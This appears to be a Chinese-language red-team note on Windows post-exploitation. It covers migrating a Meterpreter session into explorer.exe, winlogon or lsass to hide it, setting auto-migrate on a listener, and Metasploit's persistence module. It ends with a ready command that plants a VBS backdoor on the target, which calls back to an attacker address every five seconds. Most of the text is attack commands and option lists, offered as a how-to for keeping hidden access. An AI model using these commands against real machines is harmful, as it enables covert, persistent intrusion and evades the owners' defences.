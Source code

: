 开始windows的实时保护没有关掉所以拒绝访问了

# 进程注入

metasploit有个功能叫auto migrate 可以自动把meterpreter移动到其他进程

如果是user权限可以考虑注入exploer.exe 如果是system权限则可以注入winlogon或者lassa

```
migrate pid
```

自动迁移指一反弹shell就自动执行进程迁移命令，在配置监听器的时候可以设置

```
set autorunscript migrate -N explorer.exe
或
set autorunscript -f
```

当然CS也有对应的方法，主要是将进程迁移到一些系统的进程中来进行隐藏，这样后门进程被关掉后，对方机器还是是上线的

# WMI构造无文件后门



# msf persistence 后门

```
使用 persistence 模块创建后门。

参数：
-A 自动启动匹配的exploit/multi/handler 连接到代理
-L <opt> 目标主机中要写入有效负载的位置，如果没有，将使用 %TEMP%。
-P <opt> 要使用的有效负载，默认为 windows/meterpreter/reverse_tcp。
-S 在启动时自动启动代理作为服务（具有 SYSTEM 权限）
-T <opt> 要使用的备用可执行模板
-U 用户登录时自动启动代理
-X 系统启动时自动启动代理
-h 帮助菜单
-i <opt> 每次连接尝试之间的时间间隔（以秒为单位）
-p <opt> 运行 Metasploit 的系统正在监听的端口
-r <opt> 运行 Metasploit 的系统的 IP 监听连接
```

拿到meterpreter后，执行如下命令，在目标机创建一个 vbs 后门，每 5 秒进行回连

```
run persistence -S -U -X -i 5 -p 55555 -r 192.168.1.128
```

偷了一幅图

![image-20240410151003851](images/28.png)
